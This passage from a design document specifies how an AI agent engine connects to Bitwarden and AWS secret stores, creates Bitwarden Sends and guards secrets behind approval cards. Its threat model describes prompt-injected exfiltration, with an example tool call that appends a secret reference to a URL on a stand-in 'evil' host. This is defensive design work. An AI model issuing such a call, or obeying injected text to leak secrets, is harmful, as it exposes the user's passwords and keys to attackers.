**Out of scope.** Trusted-device encryption, Key Connector, passkey (PRF) unlock, SSO-initiated
account linking (`user_identifier`), and setting a first master password.

## 10. Mesh and replication

| Thing | Where | Replicates? | Why |
|---|---|---|---|
| Connection config | `config.yaml` `secrets.connections` | No (engine-local file) | AWS profiles and `~/.aws` are per machine; a Bitwarden device is per machine |
| Always-ask entries | `config.yaml` `tools.always_ask` | No (219 §3.1) | Same file, same rule |
| Bitwarden client id/secret, refresh token | `meta`, sealed with the engine key | No (`meta` is local only, `crates/secrets/migrations/0001_secrets.sql#L1-L3`) | D11; the `plugins/grants-key` precedent (`crates/secrets/src/vault.rs#L268-L271`) |
| Unlocked user key, org keys, synced ciphers | SDK client memory | No | D12 |
| Sealed user key (`remember_unlock` on) | `meta`, sealed with the engine key | No | D12; a remembered unlock is per machine |
| `secret_requests` rows with `destination` | `secret_requests` | Yes (metadata only, as today) | Any app shows the card; the answer is forwarded to the owner engine (D15) |
| A value imported into the local vault | `vault` | Yes | It is a local secret from then on (37) |
| Scrub set additions from external fetches | process memory | No | Each engine scrubs what it fetched; a peer never received the value |
| `external_sends` rows (§12.4) | `secrets.sqlite`, not in `TABLES` | No | The Send belongs to this engine's connection |
| A Send's link and password secrets | `vault` (expiring) | Yes | They are local secrets (D18); revocation deletes them everywhere, the expiry sweep too |

Consequences:
- **References are engine-relative.** A session on engine B that writes `{{secret:bw/personal/…}}`
  resolves against B's `personal` connection or fails. This mirrors nodes resolving against their own
  vault (`docs/design/37-secrets.md#L623-L625`). A follow or subagent on another engine sees the
  placeholder text only.
- **Unpair and key rotation.** Mesh key rotation re-encrypts `vault` rows
  (`crates/mesh/src/keys.rs#L704-L705`). It does not touch `meta`, so connection credentials are
  unaffected. Unpairing an engine does not log its Bitwarden device out. The Remove button does
  (`/identity/connect/revocation` is not available on every server, §5.11; theuth forgets the tokens
  either way).

## 11. Security

**Invariants (how the vault works, D21).** No secret value reaches the model (a Send link is a
stand-in, D23); known values are scrubbed from tool output. Reveal shows a value to the owner only,
through an owner press (D25). Everything else below is a permission, and it is a setting (D20).

**Threat model** (37 §8's letters: B = private data, C = egress). This doc adds a B that is much
larger than the local vault: a whole password manager. The new risks:

1. **Prompt-injected exfiltration through a reference.** For example, `read_url
   https://evil/?k={{secret:bw/personal/…}}`. Controls: the always-ask card shows the exact ref and
   the URL. It is human-answered, the double never answers it, and it is denied when the owner is
   absent. That is the reason D6 defaults to always. A user who turns `…:read` off has chosen 37's
   rule for that connection (a placeholder still asks unless approvals are off).
2. **Enumeration.** `secret_external_list` reveals item names, folders and usernames' *existence*
   (not values: no username is returned). It is a read, so it asks. An approved list result enters the
   transcript, and that is accepted, as names are not values.
3. **Write-based damage.** For example, overwriting a production DB password. Controls: the
   always-ask write card, `expected` version (no blind writes), and `Destructive` risk on update.
   Deletes have their own always-ask direction, are recoverable unless `allow_permanent_delete` is
   on, and have a Restore button.
4. **Key material at rest.** The Bitwarden user key is never at rest unless the user turns on
   `remember_unlock` (D12), in which case it is sealed under the engine key. The API key and refresh
   token are sealed in `meta` under the engine key, which is the same protection the vault key gets
   (37 §0.6). Someone who steals the engine key gets them, and can then log in but **not** decrypt
   anything without the master password.
5. **Key material in memory.** The SDK holds keys in its key store with `ZeroizeOnDrop` (§5.3).
   theuth must build it with `no-memory-hardening` (its own `#[global_allocator]`), so the SDK's
   zeroizing allocator is off and freed SDK buffers (decrypted ciphers in `CipherView`s, request
   bodies) are not wiped.
   theuth holds the master password only in a `Zeroizing<String>` from the RPC parameter to the unlock
   call. Values fetched for a call live in `Fetched` (`Zeroizing`) until `expand_with` copies them into
   the args `Value`, which is an ordinary `String` dropped after `tool.call`. That is the same ceiling
   as 37 §8 "Memory", and a core dump is not defended.
6. **Supply chain.** About 30 crates from one vendor at one pinned commit (§5.10). Controls: the pin,
   `cargo deny` licence and advisory checks in the build (B2), an SDK bump is a reviewed change to one
   module, and the feature is off unless built in.

**Scrubbing.** Every value that `resolve_external` fetches joins the redaction automaton through a
new `Vault::remember_external(placeholder, value)` before `expand_with` runs. Its replacement text is
the reference's own placeholder, so an echo comes back as `{{secret:bw/personal/…#password}}`. It
stays for the life of the process, which 37 §11 already decided. The scrub set lives in memory, never
in a vault row. Values fetched by `import` and `create` / `update` sources are already in the local
scrub set. `#totp` codes are not added (6 digits, under `MIN_REDACT`,
`crates/secrets/src/vault.rs#L45`), which is correct: they expire in 30 s.

**Logs.** `ExtError` and the SDK's own `tracing` output pass through `redact` at the theuth boundary.
The SDK crates log at `debug`, and theuth's default filter keeps `bitwarden_*=warn`. The
`secrets-bitwarden` crate never `Debug`-prints a request body. The SDK's own types implement
`Debug` without key bytes (§5.3).

**Audit trail.** Every external access is visible on a card already: the approval (or its absence
when the user turned ask off) and the `ToolCallStarted` args. Additionally, each `get` / `create` /
`update` appends a line to `<data_dir>/logs/secrets-external.log`: time, session, call id, ref,
direction, version, outcome. A `reveal` line (time, surface, connection, ref, version) is written
for every Reveal (D25). The line never holds a value. The log is local, `0600`, and rotated like
other logs. It is not a replicated table, as the engine that did it is the one to ask.

**Licence.** Linking `sdk-internal` under GPL-3.0 makes a binary built with `--features bitwarden`
a GPL-3.0 work. The release binaries enable it (D22), so the desktop app and `t` releases are
GPL-3.0 works.
- B10 packages the licence text, a NOTICE and the third-party notices.
- The `bitwarden-license` feature (SDK-licence-only code) stays off, so no non-GPL Bitwarden code
  is linked (§5.9).
- Builds without the feature are unaffected. `rbw` (D4) is the fallback if the licence or the pin ever becomes unworkable. It would
sit behind the same `ExternalBackend` trait.

## 12. Bitwarden Send

Owner requirements (2026-11-25):
- the user or the agent creates a **Bitwarden Send** on a chosen Bitwarden connection (cloud or
  self-hosted);
- its content is either **text** from a Bitwarden item/field, an AWS secret, or a local vault
  secret, or a **file** from an absolute path, a theuth artifact or a Bitwarden attachment;
- the content never passes through the model;
- the first ruling's text-only scope is reversed: file Sends are in v1, because self-hosted servers
  do not require Premium for them.

A Send is a one-off, end-to-end encrypted share: anyone with its link can read it until it expires,
is used up or is deleted. It is the one feature in this doc whose purpose is to let a secret
**leave** the user's control. Its defaults are therefore the strictest here, and every one of them
is a setting (D17, D20).

### 12.1 Decisions

**D16 — Text and file Sends, both created by the SDK.**
- *Text:* `SendClient::create(SendAddRequest)` does the key generation, the encryption and the
  `POST /sends` (§12.2).
- *File:* `SendClient::create_file_send(SendAddRequest, Vec<u8>)` encrypts the bytes and creates the
  Send, then `upload_send_file(…)` uploads the ciphertext by whichever method the server chose
  (`Direct` for self-hosted and Vaultwarden, `Azure` for the official cloud), renewing an expired
  Azure URL once (§12.2).

Item Sends (`SendType::Item`, `sdk@2b06afa:crates/bitwarden-send/src/send.rs#L161-L168`) are new
server-side and out of scope. The only gap is the share URL (G8), which theuth builds itself.

**D17 — Creating a Send is always ask by default, under its own `send` direction, and owner-only by
default; both are settings.**
- `secret:bw/<conn>:send` is seeded like the other directions (D6) and removed the same way (219
  §2.4).
- `send_owner_only` (default `true`) gives the card `HUMAN_ONLY` semantics: only the owner, in
  person, on an owner surface may answer. The double, an app press and a non-owner chat user cannot,
  and it is refused in contact turns. This needs one small change to `tools`: `Tool` gains
  `fn human_only(&self) -> bool { Self::HUMAN_ONLY }`, and `ErasedTool::human_only`
  (`crates/tools/src/lib.rs#L566`) calls it, so a tool may read a setting.
- A Bitwarden or AWS text source also counts as a read of its connection (§3.4), so both rules
  appear on the one card.

The first draft made this `HUMAN_ONLY` with no knob. The owner's ruling reverses it: the user
decides.

**D18 — The Send link is stored as a local vault secret; the agent gets its placeholder; the user
gets a copy button.**
- The link `…/#/send/<access_id>/<key>` carries the decryption key in its fragment, so it *is* a
  secret.
- It is written with `Vault::set_expiring` (`crates/secrets/src/vault.rs#L754-L768`) under a local
  name (default `send-<conn>-<8 hex of the Send id>`), expiring at the Send's deletion date.
- The agent receives `{{secret:send-personal-3fa9c2d1}}`. It can still deliver the link: a Slack,
  email or MCP tool expands it on use, under 37's `mentions` → `Ask` rule. The user's approval of the
  Send already covered the intent to share.
- Echoes are scrubbed back to the placeholder like any vault value.
- Peer messages (`send_message`, A2A) are redacted before egress (37 §15.3).

`send_link_to_agent` (D20, default `false`) puts the link itself in the receipt. The link is a
stand-in, not a secret value (D23), so this does not touch D21.

**D19 — Theuth deletes the Sends it created; `manage_all_sends` widens that.** Deleting a Send
removes exposure; it destroys no data the user keeps. Revocation follows `tools.policy` for
`Mutating`, and the user can mark `secret_send_revoke` always ask with an ordinary 219 entry. With
`manage_all_sends` on (default `false`), list and revoke also cover Sends made elsewhere.

### 12.2 SDK surface at `sdk@2b06afa`

**Common.**
- `pm.sends() -> SendClient` (`sdk@2b06afa:crates/bitwarden-pm/src/lib.rs#L220`).
- `SendAddRequest { name, notes, view_type: SendViewType, max_access_count: Option<u32>, disabled,
  hide_email, deletion_date: DateTime<Utc>, expiration_date: Option<DateTime<Utc>>, auth:
  SendAuthType }` (`sdk@2b06afa:crates/bitwarden-send/src/create.rs#L45-L64`).
- Encrypting it (`#L77-L120`):
  - draws a random 16-byte Send key (`generate_random_bytes::<[u8; 16]>`, `#L83`);
  - derives the content key with `Send::derive_shareable_key` (HKDF `"send"`, `send.rs#L498-L504`);
  - encrypts name, notes and content under the content key, and the 16-byte key under the user key.
- `SendAuthType::{None, Password { password }, HashedPassword { key_b64 }, Emails { emails }}`
  (`send.rs#L202-L226`). With `Password`, the SDK runs the PBKDF2 itself.
- `SendView { id, access_id, name, key /* base64 */, has_password, access_count, max_access_count,
  disabled, hide_email, revision_date, deletion_date, expiration_date, auth_type, file, text, … }`
  (`send.rs#L428-L463`).

**Text.** `SendClient::create(&self, SendAddRequest) -> Result<SendView, CreateSendError>`
(`create.rs#L148`): `auth.validate()`, encrypt, `sends_api().post` = `POST /sends` (`#L136`), then
store in `Repository<Send>`. `SendViewType::Text(SendTextView { text, hidden })` (`send.rs#L149-L154`,
`#L290-L297`).

**File.**
- `SendViewType::File(SendFileView { id, file_name, size, size_name })` (`send.rs#L56-L65`).
- `create_file_send(&self, request: SendAddRequest, file_buffer: Vec<u8>) ->
  Result<CreateFileSendResponse, CreateFileSendError>`
  (`sdk@2b06afa:crates/bitwarden-send/src/create_file_send.rs#L132-L190`):
  - encrypts the request;
  - encrypts the **whole buffer** under the Send key into a new `Vec<u8>` (`#L149-L151`,
    `encrypt_file_buffer_with_send_key` `#L342-L352`);
  - sets `file_length` to the ciphertext length so the server can check quota before the upload;
  - calls `sends_api().post_file` = `POST /sends/file/v2` (`#L153-L157`);
  - returns `CreateFileSendResponse { send, url, file_upload_type, file_id, encrypted_file_name,
    encrypted_file_buffer }` (`#L49-L60`).
- `FileUploadType::{Direct = 0, Azure = 1}` (`#L22-L25`).
- `upload_send_file(&self, send_id, file_id, encrypted_file_name, file_upload_type, upload_url,
  data: Vec<u8>)` (`#L205-L224`):
  - **Direct** (`#L226-L260`): a multipart `POST {api}/sends/{id}/file/{file_id}` with the
    ciphertext as part `data`, authenticated with the bearer token. `upload_url` is ignored. This is
    what self-hosted and Vaultwarden answer (§12.6).
  - **Azure** (`#L262-L315`): `PUT` to the pre-signed blob URL with `x-ms-blob-type: BlockBlob` and
    `x-ms-version` taken from the SAS `sv` parameter. On any failure it calls
    `renew_file_upload_url(send_id, file_id)` once (`#L317-L334`, `sends_api().renew_file_upload` =
    `GET /sends/{id}/file/{fileId}`) and retries with the fresh URL. A second failure surfaces as
    `UploadSendFileError::RenewFileUploadUrl` / `Api` (`#L96-L117`).
- **Memory.** No streaming. The SDK takes the plaintext as one `Vec<u8>`, returns the ciphertext as
  another, and the Azure path clones the ciphertext before its first attempt (`data.clone()`,
  `#L271`).
  - Peak memory is about 3× the file size during an Azure upload, or 2× for Direct. theuth drops
    its plaintext buffer (a `Zeroizing<Vec<u8>>`) as soon as `create_file_send` returns.
  - That is why `send_max_file_mb` (D20) defaults to 100 and not to the server's ceiling.
- **Orphans.** `create_file_send` creates the Send on the server before the upload. If the upload
  fails, theuth calls `SendClient::delete(send_id)` and reports the upload error, so no fileless Send
  stays behind.

**Lifecycle.**
- `SendClient::delete(send_id)` → `DELETE /sends/{id}`, with a pending-deletion queue and
  `retry_pending_deletions` (`sdk@2b06afa:crates/bitwarden-send/src/delete.rs#L105-L135`).
- `edit` (`edit.rs#L235`) and `remove_password` (`remove_password.rs#L46`).
- `list` / `get` over the repository (`get_list.rs#L45-L53`), which `SendSyncHandler` fills on each
  sync (`send_sync_handler.rs#L38-L60`; registered per §5.4). So `access_count` is current after a
  sync.

**The link (G8).** The SDK has no URL builder.
- `bw` builds `format!("{web_vault}/#/send/{access_id}/{url_key}")`, where `url_key` is the URL-safe,
  unpadded `SendView.key` (`sdk@2b06afa:crates/bw/src/tools/send.rs#L1109-L1138`, `#L1216`).
- `bw` guesses the host (`#L1141-L1183`). theuth uses the connection's `web_vault_url` (§6.2).
- `bw` creates text Sends through the same `SendAddRequest` (`#L695-L699`, `#L847-L850`).

**Premium.**
- `bw` pre-checks file Sends against the access token's `premium` claim
  (`require_premium`, `sdk@2b06afa:crates/bw/src/tools/send.rs#L1080-L1100`).
- theuth does **not**: a self-hosted server does not require Premium (§12.6), and a client-side
  gate would wrongly block it. theuth tries, and maps the server's refusal (§12.3).

**Bitwarden attachments as a source.** Cheap enough for v1:
1. `vault().attachments().get_attachment_download_url(cipher_id, attachment_id, None)` (one
   authenticated call, `sdk@2b06afa:crates/bitwarden-vault/src/cipher/attachment_client/download_url.rs#L31`);
2. one plain `GET` of that URL by theuth (the SDK has no download helper);
3. `attachments().decrypt_buffer(cipher, attachment, &bytes)` in memory
   (`attachment_client/mod.rs#L76-L81`).

The same size cap applies before the download, from the attachment's recorded size.

### 12.3 Tools

| Tool | Risk | Gate (default → setting) | `CONSUMES_SECRETS` |
|---|---|---|---|
| `secret_send_create` | `Destructive` | always ask via `secret:bw/<conn>:send`, owner-only answering (`send_owner_only: true`); plus `…:read` of a `bw/`/`aws/` source's connection | false |
| `secret_send_list` | `ReadOnly` | always ask via `secret:bw/<conn>:read` (it syncs) | false |
| `secret_send_revoke` | `Mutating` | `tools.policy` (D19); any 219 entry can add always ask | false |

```rust
/// `secret_send_create`: share one secret or one file through a Bitwarden Send. You never see the content or the link.
pub struct SendCreateArgs {
    /// Bitwarden connection the Send is created on (`personal`).
    pub connection: String,
    /// Text content: a local vault NAME (current version), `bw/CONN/ITEM#field` or `aws/CONN/NAME[#key]`.
    /// Exactly one of `source` / `file`. Never a placeholder, never a literal value.
    pub source: Option<String>,
    /// File content: an absolute path on this engine (`/Users/me/keys/prod.pem`), `artifact:<id>` (an
    /// artifact of this session's tree), or `bw/CONN/ITEM#attachment:<name or id>`.
    pub file: Option<String>,
    /// Send a text `source` as a file instead (for example a `.env`), with this file name.
    pub as_file: Option<String>,
    /// File name the recipient sees and downloads. Default: the source's own name (basename, artifact
    /// name, attachment name). It is encrypted in the Send but shown to whoever opens the link.
    pub file_name: Option<String>,
    /// Shown to the recipient on the Send page. Default "Shared from theuth". Never put the secret here.
    pub name: Option<String>,
    /// When the link stops working: `30m`, `2h`, `3d`, or an ISO-8601 instant (37/79 grammar). Default `24h`.
    pub expires: Option<String>,
    /// When Bitwarden deletes it; ≥ `expires`, ≤ 31 days. Default = `expires`.
    pub delete: Option<String>,
    /// How many times it may be opened. Default 1.
    pub max_access_count: Option<u32>,
    /// Access password: from a local vault NAME, or asked from the user on a masked card. Default none.
    pub password: Option<SendPassword>,
    /// Hide the sender's email from the recipient. Default true.
    pub hide_email: Option<bool>,
    /// Private notes on the Send (visible to the user in Bitwarden, not to the recipient).
    pub notes: Option<String>,
    /// Local vault name for the link. Default `send-<connection>-<8 hex>`.
    pub link_name: Option<String>,
}
#[serde(untagged)] pub enum SendPassword { From { from: String }, Ask { ask: bool } }
// → "created text Send on bw/personal: expires 2026-11-26 10:00, 1 open, password from SEND_PW, email hidden;
//    the link is {{secret:send-personal-3fa9c2d1}} (deleted with the Send on 2026-11-26); the user can copy it from the card"
// → "created file Send on bw/selfhost: prod.pem (3.2 KB, from /Users/me/keys/prod.pem), expires …; the link is {{secret:…}}"
// errors (ToolOutput::err):
//   "file Sends need Premium on bitwarden.com; text Sends work — retry with source: … to send it as text"   (text-capable source)
//   "file Sends need Premium on bitwarden.com; text Sends work"                                             (binary file)
//   "prod.dump is 812 MB; the limit here is 100 MB (Settings › Secrets › Send file size), the server's 500 MB"
//   "upload to Bitwarden failed after one URL renewal; the Send was deleted"
//   "source PW does not exist" | "bw/work is locked; the user was asked to unlock it"
//   "Sends are disabled on this server (SENDS_ALLOWED) or by your organisation's policy" | "delete must be within 31 days"
```

- **Resolution in process.** The harness reads, decrypts and encrypts the content. Nothing of it
  reaches the model, the args or any event.
  - A local source: `Vault::get(name, 0)`.
  - `bw/` and `aws/` sources: that connection's `ExternalBackend::get`, which may be a different
    connection from the one the Send is created on.
  - A path: read on the engine into a `Zeroizing<Vec<u8>>`. Only absolute paths are accepted; there is
    no cwd guessing.
  - An artifact: `ARTIFACT_ACTOR` `List { session: <root of the calling session>, descendants: true }`
    (`crates/artifact/src/lib.rs#L239-L244`), matched on `Artifact.id`, read from `Artifact.path`
    (`#L172-L200`). An artifact outside the session's tree is "not found".
  - An attachment: §12.2.

  None goes through `expand`, because the args hold a reference, not a placeholder.
- **Size.** Checked before any read: file metadata, the artifact's `bytes`, or the attachment's
  recorded size. The cap is the smaller of `send_max_file_mb` (default 100) and the server's limit:
  500 MB on the official cloud; 525 MB or the remaining `USER_SEND_LIMIT` on Vaultwarden (§12.6).
  Text content goes to `SendTextView { text, hidden: true }`; text longer than the server accepts is
  refused by the server, and theuth suggests `as_file`.
- **Premium refusal mapping.** The official server answers a non-Premium file Send with a 400 whose
  message names Premium; B0 records the exact text. theuth maps it to the first error above.
  - When the content is text-capable (a vault, `bw/` or `aws/` text source sent with `as_file`, or a
    UTF-8 file small enough for a text Send), the error says how to retry as text.
  - It never converts on its own: the card approved a file Send, so a text Send is a new call and a
    new card.
  - The desktop dialog offers "Send as text instead" as a button.
- **The password.**
  - `From` reads a local secret.
  - `Ask` raises a one-field masked `SecretRequested` card (`Send password for "…"`) after the
    approval. The typed password is stored as `<link_name>-password`, expiring with the Send, so the
    agent can deliver it by another channel as `{{secret:…-password}}`. The receipt warns against
    sending it together with the link.
  - It is passed as `SendAuthType::Password`. `Emails` (email-OTP access) is not offered in v1
    (§12.6).
- **The approval card.** `APPROVAL_PREVIEW` (`crates/tools/src/lib.rs#L450-L470`) resolves the source
  before the card and merges into it:
  - **text**: the source's label (`local GITHUB_TOKEN v3`, `bw/work › login "Prod DB" #password,
    rev 2026-10-30`, `aws/prod/app/db#password`);
  - **file**: `prod.pem · 3.2 KB · from /Users/me/keys/prod.pem` (or `artifact report.pdf v2` /
    `bw/work › "Prod DB" attachment backup.key`), plus the line "the recipient sees the file name
    prod.pem";
  - the connection, with its server and account;
  - expiry and deletion as absolute local times;
  - `max_access_count`;
  - `password: none | from SEND_PW | asked on the next card`;
  - `hide_email`;
  - "link stored as send-personal-3fa9c2d1".

  A missing source, a locked connection or an oversize file fails at preview, before any card. The
  call acts on exactly what the card showed (210 §7.3).
- `secret_send_list { connection: Option<String> }` lists the Sends theuth created (all Sends with
  `manage_all_sends`): link name, kind (`text` / `file name · size`), source ref, created / expires /
  deleted, `access_count / max`, `password: yes|no`, and status (`active | expired | used up |
  revoked | deleted by Bitwarden`). It never includes a link.
- `secret_send_revoke { send: String /* link name or Send id */ }` → `SendClient::delete`, then
  deletes the link secret (and its `-password`) from the vault. Receipt: `revoked send-personal-3fa9c2d1
  (opened 0 of 1 times)`.

### 12.4 Record, lifecycle, audit

- **Table.** `crates/secrets/migrations/0006_external_sends.sql` creates `external_sends`, one row per
  Send theuth created:
  - `id`, `conn`, `send_id`, `access_id`, `kind` (`text` / `file`), `name`, `file_name`, `file_bytes`;
  - `source_ref`, `source_version` (vault `vN`, the Bitwarden revision date, the AWS VersionId, the
    artifact id, or the path plus its mtime);
  - `link_secret`, `password_secret`;
  - `created_ms`, `expiration_ms`, `deletion_ms`, `max_access`;
  - `session`, `call_id`, `revoked_ms`.

  The table never holds the content. It holds the link only when `send_link_to_agent` is on (D23),
  sealed with the engine key in a `link_sealed` column; otherwise the link is a vault secret. It is **not** in `store::TABLES`
  (`crates/secrets/src/store.rs#L17`), so it is engine-local, because the Send belongs to that
  engine's connection.
- **Expiry.** At the deletion date the vault's expiry sweep deletes the link and password secrets
  (`crates/secrets/src/vault.rs#L754-L798`). Bitwarden deletes the Send. The row stays as history.
- **Revocation.** From the tool, from the Secrets page, or automatically when the user removes the
  connection (every active Send of that connection is deleted first; failures are queued by the
  SDK's `retry_pending_deletions` and shown).
- **Audit.** `logs/secrets-external.log` (§11) gains `send.create`, `send.revoke`, `send.copy` and
  `send.expired` lines. Each has the kind, file name and size, the source ref, connection, options,
  session and call id; never the link or the content. `access_count` from the post-sync repository
  shows on every list, so the user sees whether a link was opened.

### 12.5 UI

- **Desktop, Secrets page.**
  - Each Bitwarden connection row gains a **Sends** tab that renders `secret_send_list`'s data, with
    Revoke and **Copy link** per row.
  - A **Send…** action sits on every local secret row, on every browsed Bitwarden or AWS entry, and
    on every Bitwarden attachment. A **Send a file…** button sits on the Sends tab; it uses a native
    file picker, which yields an absolute path.
  - Artifact cards in chat gain **Send with Bitwarden…**, which opens the same dialog with
    `artifact:<id>`.
  - The dialog has the §12.3 options and defaults: connection, name, text or file (with the file
    name the recipient will see), expires (24 h), delete, max opens (1), password (none / from a
    vault secret / type one, masked), hide email (on), notes.
  - Create calls the owner RPC `create_send`. The user is the actor, so there is no approval card.
    A Premium refusal shows "Send as text instead" when the content is text-capable.
  - Uploads show progress (bytes encrypted, then uploaded).
  - The created row shows Copy link once, prominently.
- **Copy link.** `copy_send_link(id) -> String` (owner audience) returns a value outbound. It is
  scoped to the link secrets of rows in `external_sends`, because a link exists to be given away.
  - With `copy_link_needs_press` (default `true`), a desktop or iOS press runs directly and any
    other caller gets a human-only card (219 §2.4's rule). Off, any owner caller gets it.
  - The desktop writes the link straight to the clipboard and never renders it ("Copied; the
    clipboard clears in 60 s").
- **Approval card for a file Send.** The preview lines of §12.3 render in `ApprovalCard`'s args.
  The file name, size and source are first, with the recipient-visible file name called out.
- **Request card for a password.** The existing `SecretRequestCard`
  (`crates/desktop/ui/src/components/chat/SecretRequestCard.tsx#L108`) with one field.
- **TUI.**
  - `/secrets` › connection › `s` lists Sends: `r` revokes, `y` copies the link via OSC 52 (through
    `copy_send_link`).
  - `S` on a local secret or a browsed entry creates a text Send, with prompt steps for the options.
  - `/secrets send-file <abs path>` creates a file Send.
- **Slack / Telegram / Signal.** The notice line for the approval card only; the link is never posted
  by theuth itself.

### 12.6 Server compatibility and accounts

- **Official cloud.** Text Sends are available to every account, including free ones, once the
  account's email is verified. File Sends need Premium or a paid organisation, up to 500 MB per file
  ([Bitwarden help: Create a Send](https://bitwarden.com/help/create-send/)).
  - The SDK has no Premium check, and theuth adds none (§12.2). The server refuses, and theuth maps
    the refusal (§12.3).
  - Organisation "Remove Send" / "Send options" policies return server errors, also mapped.
  - B0 confirms free-account text Sends and records the Premium refusal text.
- **Vaultwarden** (cited at `dani-garcia/vaultwarden@dbd7829ed140ae3458abc97dedec9a4421ddff42`).
  - **No Premium check** anywhere in `src/api/core/sends.rs`, so file Sends work for every user.
  - Settings, from `.env.template`:
    - `SENDS_ALLOWED` (default `true`; "Controls whether users are allowed to create Bitwarden
      Sends", `.env.template#L213-L216`);
    - `USER_SEND_LIMIT` ("Per-user send storage limit (KB)", unset = unlimited,
      `.env.template#L230-L233`);
    - `SENDS_FOLDER` (`#L32`) is where files are stored.
  - There is **no** separate per-file size setting. The per-file ceiling is a constant
    `SIZE_525_MB = 550_502_400` bytes, clamped by what is left of `USER_SEND_LIMIT`
    (`src/api/core/sends.rs#L41`, `#L228-L242`).
  - `POST /sends/file/v2` answers `"fileUploadType": 0` (Direct, `#L211-L265`). The upload is the
    multipart `POST /sends/<send_id>/file/<file_id>` (`#L281-L282`), which the SDK's Direct path
    calls, and it enforces the org Send policy.
  - A deletion date beyond 31 days is refused (`#L137-L139`).
  - The SDK sends `authType` explicitly (`create.rs#L95`); B5c's suite confirms the tested version
    accepts it. Email-OTP access is not used.
- **Official self-hosted server.** It uses `Direct` uploads (local storage) unless configured for
  Azure. Premium on a self-hosted server follows its licence, not bitwarden.com's plans; the owner's
  premise is that it does not gate file Sends. B5c verifies this against a self-host install if one
  is available, else it is recorded as unverified.
- **Self-hosted link host.** `web_vault_url` (§6.2) must be the address recipients reach, which is
  not necessarily the API URL theuth uses on a LAN. The connection form asks for it when it differs.

## 13. Build plan

Each milestone names what it touches and its check. The orchestrator runs builds and tests. This doc
runs none.

- **B0 — Spike, no theuth code.** In a scratch crate outside the workspace, a `main` that runs the
  §5 sequence (client with custom URLs → API-key login → unlock → sync → list → create login →
  edit field → decrypt) against a local Vaultwarden container. Record the exact calls that differ
  from §5. *Check:* the spike prints a created item's id and decrypts its password back; the same
  against a Bitwarden test account on `vault.bitwarden.eu`. The spike also creates a text Send with a
  password, builds its link (G8) and opens it in a browser. It measures the dependency weight of
  `bitwarden-pm` against core + vault + send + sync (§5.10). *Output:* amendments to §5 and §12 if
  any.
- **B1 — `aws-profiles` crate.** Move `AwsProfiles::load/from_sdk/select` and `has_profile` from
  `crates/agent/src/aws.rs`; `agent` re-exports. *Check:* `cargo test -p agent` (the existing
  `aws.rs` tests move along), `cargo test -p aws-profiles`, wire schema unchanged.
- **B2 — Trait, grammar, hook (`secrets`, `tools`).**
  - `external.rs` (trait, types, `RegisterExternal`), the new `PLACEHOLDER`, `Fetched`, and
    `expand_with` in `vault.rs`.
  - `external_access` / `resolve_external` on `tools::secrets::Secrets`, and the `invoke` change.
  - `external` in `always()` at the three gate sites (`crates/tools/src/registry.rs#L2059`, `#L2222`,
    `#L3255`).
  - `cargo deny` config for the GPL crates (licence allow-list scoped to `bitwarden-*`).

  *Check:* `cargo test -p secrets -p tools` with a fake backend:
  - (a) `{{secret:fake/c/x}}` expands and the output is scrubbed back to it;
  - (b) an unknown connection fails the whole call;
  - (c) `secret:fake/c:read` in the global set forces an always-ask card with approvals off;
  - (d) the same entry in a parent session applies to a child;
  - (e) owner absent → Deny;
  - (f) the double cannot answer;
  - (g) `writable_name("bw/x")` is false;
  - (h) a resolve error dispatches nothing (no `ToolCallStarted` on the tool);
  - (i) each of the four directions (`read`, `write`, `delete`, `send`) seeds, forces a card, and
    after a press-removal stops forcing it;
  - (j) every D20 setting round-trips through config, and loosening one from the internal connection
    raises the human-only card while tightening does not.
- **B3 — `secrets-aws` crate.** `aws-sdk-secretsmanager` in `[workspace.dependencies]`. The backend
  with list/describe/get/create/update, JSON keys, `AWSPREVIOUS`, SSO expiry mapping. *Check:*
  `cargo test -p secrets-aws` against a mocked client: the SDK's `aws-smithy-mocks`
  `mock_client!` rules for each operation, including `ResourceExistsException` → `Exists` and an
  SSO-expired credentials error → `Expired`. An `#[ignore]` suite against `localstack` (`docker run
  localstack/localstack`, `AWS_ENDPOINT_URL`) runs create → get → update → `:-1` → delete (30-day
  window) → restore → delete with `permanent: true` refused, then allowed after
  `allow_permanent_delete`.
- **B4 — Connections, RPC, config, seeding.** `secrets.connections` config, the `meta` `ext/` rows,
  the §6.3 methods, always-ask seeding at add and at load, `remove_secret_connection` as a human
  press. *Check:* `cargo test -p secrets`:
  - a connection added by hand-editing config is seeded once, and a removed entry stays removed
    after restart;
  - `meta` rows open only with this engine's key;
  - nothing under `ext/` appears in `list_secrets` or in `vault`;
  - `reveal_external_secret` from the internal connection → refused, with no value and no card; from
    an owner press → the value and an audit line; with `allow_reveal` off → refused.

  Also the wire fixture (`just wire-schema-accept`) and `just ts-desktop`.
- **B5 — `secrets-bitwarden` crate (feature `bitwarden`).** The git dependency at `2b06afa`, the
  backend per §5 (and B0's amendments), login/unlock/lock/idle timer, sync freshness, the gaps
  §5.12 lists via `bitwarden-api-api`. *Check:* `cargo check -p theuth --features bitwarden` and
  without; `cargo test -p secrets-bitwarden` (unit tests on the field mapping and the ref parser).
  An `#[ignore]` suite against `vaultwarden/server` in Docker (an admin token creates a user; the
  test registers through the SDK's register request if available, else a fixture DB) runs:
  - API-key login → unlock → create login → `get #password` → update with a stale `expected` →
    `Conflict`;
  - an org collection item (with `write_scope: personal_and_org`), then lock → `Locked`;
  - delete → trash → restore; permanent delete refused, then allowed with `allow_permanent_delete`;
  - `remember_unlock` on → restart → `Ready` without the master password.

  `bitwarden-pm` is built with `no-memory-hardening` (§5.3). B5 also checks that the lock still
  resolves one `libsqlite3-sys` (§5.8).
- **B5b — Password login (G7).** The own `/connect/token` request: per-connection device id, 2FA
  steps (Authenticator, Email via `send_two_factor_email`, YubiKey OTP), `newDeviceOtp`, the legacy
  prelogin fallback, the refresh token sealed in `meta`, and `set_tokens` + `USER_LOGIN_METHOD` on
  restore. *Check:* unit tests on the request bodies. The ignored Vaultwarden suite runs password +
  TOTP login → restart → unlock with no 2FA prompt.
- **B5c — Bitwarden text Sends (§12).** `secret_send_create` (text sources) / `_list` / `_revoke`,
  `APPROVAL_PREVIEW`, the `send` direction and `send_owner_only` (with the `Tool::human_only(&self)`
  change in `tools`), the link builder (G8), migration `0006_external_sends.sql`, the link and
  password secrets via `set_expiring`, `create_send` / `copy_send_link` RPCs (`copy_link_needs_press`),
  revoke on connection removal, audit lines. *Check:*
  - `cargo test -p secrets-bitwarden -p secrets -p tools`:
    - the link format `…/#/send/<access_id>/<url-b64>` for the `us`, `eu` and self-hosted URLs;
    - the preview fields;
    - with `send_owner_only` on, a contact turn is refused and the double and an app press cannot
      answer; with it off, an ordinary always-ask card;
